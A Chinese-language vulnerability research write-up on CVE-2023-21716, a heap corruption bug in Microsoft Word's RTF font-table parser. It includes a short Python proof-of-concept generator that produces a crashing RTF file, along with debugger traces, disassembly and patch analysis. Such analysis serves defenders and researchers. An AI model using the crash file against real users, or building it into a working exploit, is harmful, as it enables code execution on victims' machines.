






# Microsoft Word 远程代码执行漏洞 CVE-2023-21716

## 漏洞描述

Microsoft Office Word是微软公司的一个文字处理器应用程序。Word给用户提供了用于创建专业而优雅的文档工具。

该漏洞存在于Microsoft Word的RTF解析器（wwlib）中，是一个远程代码执行漏洞，攻击者可以制作包含过多字体表项的RTF文件，并诱导用户打开来利用此漏洞。攻击者可利用多种方式诱导用户下载并打开特制文档，如电子邮件、即时消息等等。用户使用预览窗格也会触发此漏洞。成功利用此漏洞可能在目标系统上以该用户权限执行代码。

近日漏洞发现者 Joshua J. Drake 公布了漏洞的 POC。

参考链接：

- https://qoop.org/publications/cve-2023-21716-rtf-fonttbl.md

## 分析环境

```
Windows 10 x64 1607
Office 2016，Windbg，IDA Pro 7.5
wwlib(16.0.4266.1003)
```

## 漏洞复现

POC.rtf 使用 Joshua J. Drake 提供的 python 脚本生成。

```
import sys
open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
```

POC.rtf 的内容较为简单，仅包括 \rtfN、\fonttbl、\fN 和 \rtlch 控制字，此次漏洞发生在 rtf 解释器 wwlib 模块处理 \fonttbl 和 \fN 控制字时，POC.rtf 内容如下。

```
{\rtf1{
{\fonttbl{\f0A;}
{\f1A;}
{\f2A;}
{\f3A;}
{\f4A;}
{\f5A;}
{\f6A;}
...
{\f32755A;}
{\f32756A;}
{\f32757A;}
{\f32758A;}
{\f32759A;}
{\f32760A;}
}
{\rtlch no crash??}
}}
```

对 winword.exe 开启页堆，可以得到以下的栈回溯。

```
(c70.dc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=006f23ac ebx=00000001 ecx=000004e4 edx=ffff7ffc esi=362ceff0 edi=00008002
eip=6abb00d5 esp=006f2304 ebp=006f2310 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
wwlib!PTLS7::FsUpdateFinitePage+0x7635a:
6abb00d5 66894c5604      mov     word ptr [esi+edx*2+4],cx ds:002b:362befec=????
0:000> kv
 # ChildEBP RetAddr  Args to Child
WARNING: Stack unwind information not available. Following frames may be wrong.
00 006f2310 6abaa3ef 17da1268 00007ff8 006f238c wwlib!PTLS7::FsUpdateFinitePage+0x7635a
01 006f51e8 6aba651c 17da1230 006f555c 0005d400 wwlib!PTLS7::FsUpdateFinitePage+0x70674
02 006f579c 6aef05ac 17da1230 006f57dc 00000070 wwlib!PTLS7::FsUpdateFinitePage+0x6c7a1
03 006f5bec 6aeeffb5 0000000b 17da1230 17da1264 wwlib!PTLS7::LsDestroyContext+0x246427
04 006f5e40 6aa4a593 0000000b 04012000 40280000 wwlib!PTLS7::LsDestroyContext+0x245e30
05 006f772c 6a9068ef 0000000b 00000000 04012000 wwlib!PTLS7::FsUpdateBottomlessPage+0x17494
06 006f7c54 6aa654ed 006f8530 00000001 00000000 wwlib!PTLS7::LsAssert+0x2bd1c
07 006f905c 6aa63d3b 006f93f0 006f93e8 04012000 wwlib!PTLS7::FsUpdateBottomlessPage+0x323ee
08 006f90e0 6b56be52 006f93f0 006f93e8 04012000 wwlib!PTLS7::FsUpdateBottomlessPage+0x30c3c
09 006fa66c 6ae6013a 006fa6c8 00000824 00000000 wwlib!wdGetApplicationObject+0xdf8a0
0a 006fb718 6aca4e9e 006ff990 ffffffff 00000001 wwlib!PTLS7::LsDestroyContext+0x1b5fb5
0b 006fb948 6a8ceb47 7668a200 6a8c0000 00000001 wwlib!PTLS7::LsQueryLineUp+0x41cf1
0c 006fb978 6a8ce971 0000000a 00430022 005c003a wwlib!FMain+0x273
0d 006ff9fc 6a8ce906 0000000a 6a8ce8d4 006ffa30 wwlib!FMain+0x9d
0e 006ffa0c 00141762 00140000 00000000 02fbefd4 wwlib!FMain+0x32
0f 006ffa30 00141194 00140000 00000000 02fbefd4 winword+0x1762
10 006ffa7c 766862c4 0045c000 766862a0 1455d81a winword+0x1194
11 006ffa90 77ed0609 0045c000 6d907d52 00000000 KERNEL32!BaseThreadInitThunk+0x24 (FPO: [Non-Fpo])
12 006ffad8 77ed05d4 ffffffff 77ef2523 00000000 ntdll!__RtlUserThreadStart+0x2f (FPO: [SEH])
13 006ffae8 00000000 00141000 0045c000 00000000 ntdll!_RtlUserThreadStart+0x1b (FPO: [Non-Fpo])
```

通过栈回溯得到以下调用链，由于没有 wwlib.dll 模块的符号只简单的揣测了一下几个关键函数的作用。



## 漏洞分析

查看 crash func(sub_102F0020) 及崩溃地址处的上下文，经过一番调试摸清了 sub_102F0020 函数的参数意义和崩溃原因。

sub_102F0020 函数用于处理 fond id 也就是 /fN 中的 N，其会将 fond id 和 codepage value 存储在一个由 Cum 和 Base 计算偏移的地址上。Base 的初始值是 0xa，且每当处理了 0xa 个 fond id 就会累加 0xa。



存储 fond id 和 codepage value 的代码片段同时也是 crash 时的上下文。

```
.text:102F00A2    movsx   eax, word ptr [esi]//获得 Cum
.text:102F00A5    mov     ecx, [ebp+arg_4]//获得 fond id
.text:102F00A8    mov     [esi+eax*2+4], cx//存储 fond id        <---- bp1
.text:102F00AD    movsx   eax, word ptr [esi+2]
.text:102F00B1    movsx   ecx, word ptr [esi]
.text:102F00B4    add     ecx, eax
.text:102F00B6    mov     eax, [ebp+arg_8]
.text:102F00B9    mov     ax, [eax]
.text:102F00BC    mov     [esi+ecx*2+4], ax
.text:102F00C1    mov     eax, [ebp+arg_10]
.text:102F00C4    test    eax, eax
.text:102F00C6    jz      short loc_102F00DA
.text:102F00C8    movsx   ecx, word ptr [esi]//获得 Cum
.text:102F00CB    movsx   edx, word ptr [esi+2]//获得 Base       <---- bp2
.text:102F00CF    lea     edx, [ecx+edx*2]//计算偏移             <---- bp3
.text:102F00D2    mov     cx, [eax]//获得 codepage value
.text:102F00D5    mov     [esi+edx*2+4], cx//存储 codepage value <---- bp4 <- crash
.text:102F00DA    inc     word ptr [esi]//增加 Cum 计数
```

在上述代码片段中下 4 个断点查看存储过程，注意各寄存器对应关系。

```
bp wwlib+2F00A8 ".printf \" Cum: %p Font id: %p Target addr: %p from 0x%x + 0x%x*2 + 4\\n \", eax,ecx,(esi+eax*2+4),esi,eax; gc"
bp wwlib+2F00CB ".printf \" Base: %p \\n \", poi(esi+2); gc"
bp wwlib+2F00CF ".printf \" Edx: %p from 0x%x + 0x%x*2\\n \", (ecx + edx*2),ecx,edx; gc"
bp wwlib+2F00D5 ".printf \" Target addr: %p from 0x%x + 0x%x*2 + 4\\n \", (esi+edx*2+4),esi,edx; gc"
```

崩溃前断点记录到的存储过程信息。

```
  ...
 ---------------------------------------------------------------------------------------
  Cum: 00007fec Font id: 00007fec Target addr: 3b3e0044 from 0x3b3d0068 + 0x7fec*2 + 4
  Base: 00007fee 
  Edx: 00017fc8 from 0x7fec + 0x7fee*2
  Target addr: 3b3ffffc from 0x3b3d0068 + 0x17fc8*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007fed Font id: 00007fed Target addr: 3b3e0046 from 0x3b3d0068 + 0x7fed*2 + 4
  Base: 00007fee 
  Edx: 00017fc9 from 0x7fed + 0x7fee*2
  Target addr: 3b3ffffe from 0x3b3d0068 + 0x17fc9*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007fee Font id: 00007fee Target addr: 3e538008 from 0x3e528028 + 0x7fee*2 + 4
  Base: 00007ff8 
  Edx: 00017fde from 0x7fee + 0x7ff8*2
  Target addr: 3e557fe8 from 0x3e528028 + 0x17fde*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007fef Font id: 00007fef Target addr: 3e53800a from 0x3e528028 + 0x7fef*2 + 4
  Base: 00007ff8 
  Edx: 00017fdf from 0x7fef + 0x7ff8*2
  Target addr: 3e557fea from 0x3e528028 + 0x17fdf*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007ff0 Font id: 00007ff0 Target addr: 3e53800c from 0x3e528028 + 0x7ff0*2 + 4
  Base: 00007ff8 
  Edx: 00017fe0 from 0x7ff0 + 0x7ff8*2
  Target addr: 3e557fec from 0x3e528028 + 0x17fe0*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007ff1 Font id: 00007ff1 Target addr: 3e53800e from 0x3e528028 + 0x7ff1*2 + 4
  Base: 00007ff8 
  Edx: 00017fe1 from 0x7ff1 + 0x7ff8*2
  Target addr: 3e557fee from 0x3e528028 + 0x17fe1*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007ff2 Font id: 00007ff2 Target addr: 3e538010 from 0x3e528028 + 0x7ff2*2 + 4
  Base: 00007ff8 
  Edx: 00017fe2 from 0x7ff2 + 0x7ff8*2
  Target addr: 3e557ff0 from 0x3e528028 + 0x17fe2*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007ff3 Font id: 00007ff3 Target addr: 3e538012 from 0x3e528028 + 0x7ff3*2 + 4
  Base: 00007ff8 
  Edx: 00017fe3 from 0x7ff3 + 0x7ff8*2
  Target addr: 3e557ff2 from 0x3e528028 + 0x17fe3*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007ff4 Font id: 00007ff4 Target addr: 3e538014 from 0x3e528028 + 0x7ff4*2 + 4
  Base: 00007ff8 
  Edx: 00017fe4 from 0x7ff4 + 0x7ff8*2
  Target addr: 3e557ff4 from 0x3e528028 + 0x17fe4*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007ff5 Font id: 00007ff5 Target addr: 3e538016 from 0x3e528028 + 0x7ff5*2 + 4
  Base: 00007ff8 
  Edx: 00017fe5 from 0x7ff5 + 0x7ff8*2
  Target addr: 3e557ff6 from 0x3e528028 + 0x17fe5*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007ff6 Font id: 00007ff6 Target addr: 3e538018 from 0x3e528028 + 0x7ff6*2 + 4
  Base: 00007ff8 
  Edx: 00017fe6 from 0x7ff6 + 0x7ff8*2
  Target addr: 3e557ff8 from 0x3e528028 + 0x17fe6*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007ff7 Font id: 00007ff7 Target addr: 3e53801a from 0x3e528028 + 0x7ff7*2 + 4
  Base: 00007ff8 
  Edx: 00017fe7 from 0x7ff7 + 0x7ff8*2
  Target addr: 3e557ffa from 0x3e528028 + 0x17fe7*2 + 4
 ---------------------------------------------------------------------------------------
  Cum: 00007ff8 Font id: 00007ff8 Target addr: 362defe4 from 0x362ceff0 + 0x7ff8*2 + 4
  Base: 00008002 
  Edx: ffff7ffc from 0x7ff8 + 0xffff8002*2
  Target addr: 362befec from 0x362ceff0 + 0xffff7ffc*2 + 4
```

观察记录及断点处的汇编代码，发现崩溃是由 bp2 处的 movsx 指令引起的整数溢出导致。



由上图中的记录 2 可以发现，bp2 处获得的 Base 由 0x8002 变为了 edx 中的 0xffff8002，变化的原因是 movsx 指令是带符号扩展的，而 0x8002 的最高位又恰好为 1。这也就导致 bp3 处的 edx 和 bp4 处的 Target addr 整数溢出，并最终在 bp4 处发生堆损坏。



Target addr 整数溢出。



## 补丁分析

将 Office 更新到最新后再次打开 POC.rtf 发现依然会造成崩溃，不过此崩溃是 winword.exe 提前检测到即将造成堆损坏而主动引发的，另外发现微软提供了此版本 wwlib.dll 的符号文件，此栈回溯与之前的基本一致。

```
(174c.149c): Security check failure or stack buffer overrun - code c0000409 (!!! second chance !!!)
eax=00008002 ebx=00007ff8 ecx=00000005 edx=ffffffff esi=7e221028 edi=00007ff8
eip=6cccec57 esp=004f10f4 ebp=004f110c iopl=0         nv up ei pl nz ac pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000216
wwlib!FSearchFtcmap+0x182:
6cccec57 cd29            int     29h
0:000> kv
 # ChildEBP RetAddr  Args to Child
00 004f110c 6d9f1494 004f119c 00000001 004f1188 wwlib!FSearchFtcmap+0x182 (FPO: [Non-Fpo])
01 004f35d8 6d9e347e bb594bde 1c597028 0005d400 wwlib!RtfInRare+0x1848 (FPO: [Non-Fpo])
02 004f3a0c 6d9ff40f 00000070 1c597028 505daa50 wwlib!CchRtfInCore+0x28df (FPO: [Non-Fpo])
03 004f3c5c 6d9fecc4 1c59702c 004fa0d0 004f5a60 wwlib!RtfGetChars+0x183 (FPO: [Non-Fpo])
04 004f3ca8 6c97a74a 40280000 00200002 56b28f10 wwlib!PdodCreateRtf+0x177 (FPO: [6,13,4])
05 004f5404 6c528610 04012000 20280000 00200002 wwlib!`Mso::Details::SharedMutexPool::Get'::`2'::`dynamic atexit destructor for 's_mutexPool''+0x15be8d
06 004f5758 6c52829b 00000000 ffffffff 00000000 wwlib!PdodCreatePfnCore+0x33a (FPO: [Non-Fpo])
07 004f57dc 6c504161 00000000 ffffffff 00000000 wwlib!PdodCreatePfnBPPaapWithEdpi+0x75 (FPO: [18,3,4])
08 004f8df4 6c5001b5 04012000 00000000 00000002 wwlib!PdodOpenFnmCore2+0x22eb (FPO: [Non-Fpo])
09 004f8ebc 6d2d3628 04012000 00000000 00000002 wwlib!PdodOpenFnmCore+0xb9 (FPO: [15,30,0])
0a 004f9fe8 6d2d332e 00000000 00000000 00000002 wwlib!FFileOpenXszCore+0x2e7 (FPO: [Non-Fpo])
0b 004fa024 6c7b525d 00000000 00000000 00000002 wwlib!FFileOpenXstzCore+0x3d (FPO: [6,4,0])
0c 004fb4c4 6c3cc272 00000001 00000000 6c3cc22c wwlib!IfrInitArgs+0x7ef (FPO: [Non-Fpo])
0d 004fb6fc 6c309720 bb59c6ba 74cda210 0000000a wwlib!Boot::IfrParseCommandLine2+0x46 (FPO: [Non-Fpo])
0e 004fb774 6c309542 004fb7a4 6c300000 6c309234 wwlib!Boot::FRun+0xb4 (FPO: [Non-Fpo])
0f 004ff830 6c309298 83385031 00000540 bb5989b6 wwlib!FWordBoot+0x5a (FPO: [Non-Fpo])
10 004ff864 00941917 00940000 00000000 0000000a wwlib!FMain+0x64 (FPO: [Non-Fpo])
11 004ffab4 0094114a 00940000 00000000 0077efd4 winword!WinMain+0x146 (FPO: [Non-Fpo])
12 004ffb00 74cd62c4 003e5000 74cd62a0 454ba229 winword!std::_Deallocate<8,0>+0x1e3 (FPO: [Non-Fpo])
13 004ffb14 77ae0fa9 003e5000 11605f5b 00000000 KERNEL32!BaseThreadInitThunk+0x24 (FPO: [Non-Fpo])
14 004ffb5c 77ae0f74 ffffffff 77b02ed1 00000000 ntdll!__RtlUserThreadStart+0x2f (FPO: [SEH])
15 004ffb6c 00000000 00941000 003e5000 00000000 ntdll!_RtlUserThreadStart+0x1b (FPO: [Non-Fpo])
```

补丁文件中新增的范围检测。

